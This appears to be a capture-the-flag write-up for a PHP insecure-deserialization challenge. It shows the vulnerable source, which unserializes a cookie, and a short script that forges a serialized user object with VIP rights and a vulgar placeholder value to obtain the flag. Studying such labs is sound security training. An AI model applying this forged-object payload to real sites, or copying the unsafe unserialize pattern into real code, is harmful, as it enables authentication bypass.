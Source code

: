 ```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';  //这里把 $username 和 $password 写死了
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            //细节在这里，要求 username与password不一样，反序列化修改属性即可
            if($this->username!==$this->password){  
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    //起点
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

```php
<?php
class ctfShowUser
{
    public $username = 'cnm';
    public $password = 'fuck';
    public $isVip = true;
}
echo urlencode(serialize(new ctfShowUser()));
```
